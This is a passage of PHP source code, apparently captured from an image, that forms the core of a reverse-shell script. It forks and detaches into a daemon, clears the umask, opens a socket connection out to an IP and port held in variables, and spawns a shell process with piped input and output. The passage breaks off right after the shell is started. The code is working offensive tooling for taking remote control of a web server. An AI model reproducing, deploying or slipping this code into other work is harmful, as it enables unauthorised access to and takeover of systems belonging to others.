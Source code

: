 ```php

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

```